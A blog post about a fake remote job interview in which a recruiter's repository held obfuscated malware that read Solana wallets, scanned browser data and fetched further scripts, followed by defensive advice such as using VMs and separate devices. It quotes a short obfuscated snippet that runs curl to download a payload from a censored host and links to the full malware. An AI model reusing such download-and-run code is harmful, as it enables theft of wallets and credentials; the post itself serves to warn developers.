 ```yaml
---
date: '2024-12-14T22:24:22-06:00'
title: 'You Could Lose All Your Crypto In a Job Interview'
categories:
- opinions
coverImage: "images/tech-interview-hacking-obfuscated-code.jpg"
description: 'This is the story about a guy who was about to lose all his crypto and probably get hacked in a job interview for a remote position'
keyword: ''
keywords:
- 'crypto'
- 'interview'
- 'github'
- 'hacking'
- 'docker'
authors:
- 'Eduardo Zepeda'
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library](/en/using-github-to-evaluate-developers-is-naive/) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address](/en/basic-characteristics-of-an-api-rest-api/), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything though.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can rapidly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container](/en/the-most-useful-and-basic-docker-commands/), if you don't mind not having a graphical interface. 

Another option available, and my personal favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount the hard drive that contains sensitive information in the VM, you're toast.

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes,it will be just a garbage of non-sense zeroes and ones. 

I don't plan to offer details because there is already too much information on the internet about GPG and its alternatives, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't want to become a Linux or math nerd, there are tools like Kleopatra, which could make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from black hat interviews? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X. Edited: the owner of the account changed his privacy settings so now you can't watch the full conversation.


